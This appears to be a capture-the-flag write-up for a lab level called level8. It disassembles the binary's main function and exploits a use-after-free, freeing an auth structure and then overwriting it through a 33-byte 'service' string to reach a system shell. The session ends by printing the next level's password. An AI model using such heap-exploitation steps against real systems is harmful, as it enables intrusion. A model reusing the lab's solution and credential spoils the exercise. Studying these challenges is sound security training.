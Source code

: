 # level8

1. [Analysis](#analysis)
2. [Exploit](#exploit)

> Please note that due to a programming error, we can easily resolve this level without using the expected vulnerability, but we will act as if the binary worked as intended. The bug makes the program to allocate the space of an address instead of a structure.

## Analysis

We have an big `main` function:

```gdb
gdb-peda$ disas main
Dump of assembler code for function main:
   0x08048564 <+0>:     push   ebp
   0x08048565 <+1>:     mov    ebp,esp
   0x08048567 <+3>:     push   edi
   0x08048568 <+4>:     push   esi
   0x08048569 <+5>:     and    esp,0xfffffff0
   0x0804856c <+8>:     sub    esp,0xa0
   0x08048572 <+14>:    jmp    0x8048575 <main+17>
   0x08048574 <+16>:    nop
   0x08048575 <+17>:    mov    ecx,DWORD PTR ds:0x8049ab0               ; ecx = data variable 'service' address
   0x0804857b <+23>:    mov    edx,DWORD PTR ds:0x8049aac               ; edx = data variable 'auth' address
   0x08048581 <+29>:    mov    eax,0x8048810                            ; eax = text section address ("%p, %p \n")
   0x08048586 <+34>:    mov    DWORD PTR [esp+0x8],ecx                  ; load 3rd printf arg from ecx
   0x0804858a <+38>:    mov    DWORD PTR [esp+0x4],edx                  ; load 2nd printf arg from edx
   0x0804858e <+42>:    mov    DWORD PTR [esp],eax                      ; load 1st printf arg from eax
   0x08048591 <+45>:    call   0x8048410 <printf@plt>                   ; printf("%p, %p \n", auth address, service address)
   0x08048596 <+50>:    mov    eax,ds:0x8049a80                         ; eax = stdin
   0x0804859b <+55>:    mov    DWORD PTR [esp+0x8],eax                  ; load fgets 3rd arg from eax
   0x0804859f <+59>:    mov    DWORD PTR [esp+0x4],0x80                 ; load fgets 2nd arg (128)
   0x080485a7 <+67>:    lea    eax,[esp+0x20]                           ; eax = variable on stack (buffer)
   0x080485ab <+71>:    mov    DWORD PTR [esp],eax                      ; load fgets 1st arg from eax
   0x080485ae <+74>:    call   0x8048440 <fgets@plt>                    ; fgets(buffer, 128, stdin)
   0x080485b3 <+79>:    test   eax,eax                                  ; check fgets return value
   0x080485b5 <+81>:    je     0x804872c <main+456>                     ; if zero jump to the end of the function
   0x080485bb <+87>:    lea    eax,[esp+0x20]                           ; eax = buffer
   0x080485bf <+91>:    mov    edx,eax                                  ; edx = eax
   0x080485c1 <+93>:    mov    eax,0x8048819                            ; eax = 'auth' address
   0x080485c6 <+98>:    mov    ecx,0x5                                  ; ecx = 5
   0x080485cb <+103>:   mov    esi,edx                                  ; esi = edx (buffer)
   0x080485cd <+105>:   mov    edi,eax                                  ; edi = eax ('auth')
   0x080485cf <+107>:   repz cmps BYTE PTR ds:[esi],BYTE PTR es:[edi]   ; while edi - esi = 0 && ecx > 0
   0x080485d1 <+109>:   seta   dl                                       ; set dl byte to 1 if above 
   0x080485d4 <+112>:   setb   al                                       ; set al byte to 1 if below
   0x080485d7 <+115>:   mov    ecx,edx
   0x080485d9 <+117>:   sub    cl,al
   0x080485db <+119>:   mov    eax,ecx
   0x080485dd <+121>:   movsx  eax,al                                   ;
   0x080485e0 <+124>:   test   eax,eax                                  ; check if eax == 0
   0x080485e2 <+126>:   jne    0x8048642 <main+222>                     ; jump if not
   0x080485e4 <+128>:   mov    DWORD PTR [esp],0x4                      ; load malloc arg (4)
   0x080485eb <+135>:   call   0x8048470 <malloc@plt>                   ; malloc(4)
   0x080485f0 <+140>:   mov    ds:0x8049aac,eax                         ; 'auth' = malloc return value
   0x080485f5 <+145>:   mov    eax,ds:0x8049aac                         ; eax = 'auth' allocated address
   0x080485fa <+150>:   mov    DWORD PTR [eax],0x0                      ; eax 4 bytes content = 0
   0x08048600 <+156>:   lea    eax,[esp+0x20]                           ; eax = buffer address
   0x08048604 <+160>:   add    eax,0x5                                  ; eax = buffer[5]
   0x08048607 <+163>:   mov    DWORD PTR [esp+0x1c],0xffffffff          ; 
   0x0804860f <+171>:   mov    edx,eax
   0x08048611 <+173>:   mov    eax,0x0
   0x08048616 <+178>:   mov    ecx,DWORD PTR [esp+0x1c]
   0x0804861a <+182>:   mov    edi,edx
   0x0804861c <+184>:   repnz scas al,BYTE PTR es:[edi]
   0x0804861e <+186>:   mov    eax,ecx
   0x08048620 <+188>:   not    eax
   0x08048622 <+190>:   sub    eax,0x1
   0x08048625 <+193>:   cmp    eax,0x1e
   0x08048628 <+196>:   ja     0x8048642 <main+222>
   0x0804862a <+198>:   lea    eax,[esp+0x20]
   0x0804862e <+202>:   lea    edx,[eax+0x5]
   0x08048631 <+205>:   mov    eax,ds:0x8049aac
   0x08048636 <+210>:   mov    DWORD PTR [esp+0x4],edx
   0x0804863a <+214>:   mov    DWORD PTR [esp],eax
   0x0804863d <+217>:   call   0x8048460 <strcpy@plt>
   0x08048642 <+222>:   lea    eax,[esp+0x20]
   0x08048646 <+226>:   mov    edx,eax
   0x08048648 <+228>:   mov    eax,0x804881f
   0x0804864d <+233>:   mov    ecx,0x5
   0x08048652 <+238>:   mov    esi,edx
   0x08048654 <+240>:   mov    edi,eax
   0x08048656 <+242>:   repz cmps BYTE PTR ds:[esi],BYTE PTR es:[edi]
   0x08048658 <+244>:   seta   dl
   0x0804865b <+247>:   setb   al
   0x0804865e <+250>:   mov    ecx,edx
   0x08048660 <+252>:   sub    cl,al
   0x08048662 <+254>:   mov    eax,ecx
   0x08048664 <+256>:   movsx  eax,al
   0x08048667 <+259>:   test   eax,eax
   0x08048669 <+261>:   jne    0x8048678 <main+276>
   0x0804866b <+263>:   mov    eax,ds:0x8049aac
   0x08048670 <+268>:   mov    DWORD PTR [esp],eax
   0x08048673 <+271>:   call   0x8048420 <free@plt>
   0x08048678 <+276>:   lea    eax,[esp+0x20]
   0x0804867c <+280>:   mov    edx,eax
   0x0804867e <+282>:   mov    eax,0x8048825
   0x08048683 <+287>:   mov    ecx,0x6
   0x08048688 <+292>:   mov    esi,edx
   0x0804868a <+294>:   mov    edi,eax
   0x0804868c <+296>:   repz cmps BYTE PTR ds:[esi],BYTE PTR es:[edi]
   0x0804868e <+298>:   seta   dl
   0x08048691 <+301>:   setb   al
   0x08048694 <+304>:   mov    ecx,edx
   0x08048696 <+306>:   sub    cl,al
   0x08048698 <+308>:   mov    eax,ecx
   0x0804869a <+310>:   movsx  eax,al
   0x0804869d <+313>:   test   eax,eax
   0x0804869f <+315>:   jne    0x80486b5 <main+337>
   0x080486a1 <+317>:   lea    eax,[esp+0x20]
   0x080486a5 <+321>:   add    eax,0x7
   0x080486a8 <+324>:   mov    DWORD PTR [esp],eax
   0x080486ab <+327>:   call   0x8048430 <strdup@plt>
   0x080486b0 <+332>:   mov    ds:0x8049ab0,eax
   0x080486b5 <+337>:   lea    eax,[esp+0x20]
   0x080486b9 <+341>:   mov    edx,eax
   0x080486bb <+343>:   mov    eax,0x804882d
   0x080486c0 <+348>:   mov    ecx,0x5
   0x080486c5 <+353>:   mov    esi,edx
   0x080486c7 <+355>:   mov    edi,eax
   0x080486c9 <+357>:   repz cmps BYTE PTR ds:[esi],BYTE PTR es:[edi]
   0x080486cb <+359>:   seta   dl
   0x080486ce <+362>:   setb   al
   0x080486d1 <+365>:   mov    ecx,edx
   0x080486d3 <+367>:   sub    cl,al
   0x080486d5 <+369>:   mov    eax,ecx
   0x080486d7 <+371>:   movsx  eax,al
   0x080486da <+374>:   test   eax,eax
   0x080486dc <+376>:   jne    0x8048574 <main+16>
   0x080486e2 <+382>:   mov    eax,ds:0x8049aac
   0x080486e7 <+387>:   mov    eax,DWORD PTR [eax+0x20]
   0x080486ea <+390>:   test   eax,eax
   0x080486ec <+392>:   je     0x80486ff <main+411>
   0x080486ee <+394>:   mov    DWORD PTR [esp],0x8048833
   0x080486f5 <+401>:   call   0x8048480 <system@plt>
   0x080486fa <+406>:   jmp    0x8048574 <main+16>
   0x080486ff <+411>:   mov    eax,ds:0x8049aa0
   0x08048704 <+416>:   mov    edx,eax
   0x08048706 <+418>:   mov    eax,0x804883b
   0x0804870b <+423>:   mov    DWORD PTR [esp+0xc],edx
   0x0804870f <+427>:   mov    DWORD PTR [esp+0x8],0xa
   0x08048717 <+435>:   mov    DWORD PTR [esp+0x4],0x1
   0x0804871f <+443>:   mov    DWORD PTR [esp],eax
   0x08048722 <+446>:   call   0x8048450 <fwrite@plt>
   0x08048727 <+451>:   jmp    0x8048574 <main+16>
   0x0804872c <+456>:   nop
   0x0804872d <+457>:   mov    eax,0x0
   0x08048732 <+462>:   lea    esp,[ebp-0x8]
   0x08048735 <+465>:   pop    esi
   0x08048736 <+466>:   pop    edi
   0x08048737 <+467>:   pop    ebp
   0x08048738 <+468>:   ret
End of assembler dump.
```

After analysing how this executable works and rewriting the source code, we understand that we need to set the variable 'auth' of the structure 'auth' to a value other than 0 in order to execute the `system` call.

The whole code of `main` is wrapped inside an infinite loop (such as `while (1)`), which prints two variable adresses, wait for a user input, then performs differents actions if the input begins by one theses commands : `auth `, `reset`, `service` or `login`. The input is read from stdin with `fgets`, avoiding a buffer overflow here.

We notice two memory allocations, a `malloc` call for the 'auth' structure and a `strdup` of the 'service' variable. In the first one, `strcpy` is used to fill in the array of char of the 'auth' structure, but a `strlen` check prevents us again from exploiting a buffer overflow.

Taking a closer look to the allocated pointers, we see that the `reset` command will free the structure 'auth', but dont set its pointer to 'NULL', keeping this address readable without any segfault . Indeed, we know that `free` will just set the memory block as 'free for use', according to the `malloc` implementation. After some researches , we find the kind of exploit we can use here, a 'use-after-free'.

## Exploit

The main goal of this exploit is to write on the memory space of the structure 'auth' to change the value of its variable 'auth' which is checked to allow the execution of `system`. Let's run the program and begin by allocating space to the 'auth' structure.

```console
level8@RainFall:~$ ./level8
(nil), (nil)
auth hackerman     # ^_^
0x804a008, (nil)
```

The structure 'auth' is now allocated at the address `0x804a008`. We will try to free it with `reset`, then write on the same space using the `service` command that will call `strdup` to allocate space on the heap and copy the string we provide to it. We expect `malloc` to return the same address as previously (`0x804a008`) because we will `free` the block before.

In order to overwrite the value of 'auth->auth', we need to send a string which is at least 33 bytes long : the 32 first bytes will overwrite the array of characters 'auth->name' and the 33rd the 'auth->auth' variable. Please note that the characters we send don't matter, all we need is a final value different from 0x00000000 at the address `0x804a008 + 32`.

Last detail, we should not send more than 36 characters, otherwise the targeted memory block won't be large enough and `malloc` will allocate us some space from a different heap address. Why 36 ? Because this is the size of the 'auth' structure previously allocated. Now let's do this !

```console
reset
0x804a008, (nil)
service AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
0x804a008, 0x804a008    # the real output is different due to the bug mentioned at the top of this document
login
$ cat /home/user/level9/.pass
c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a
```
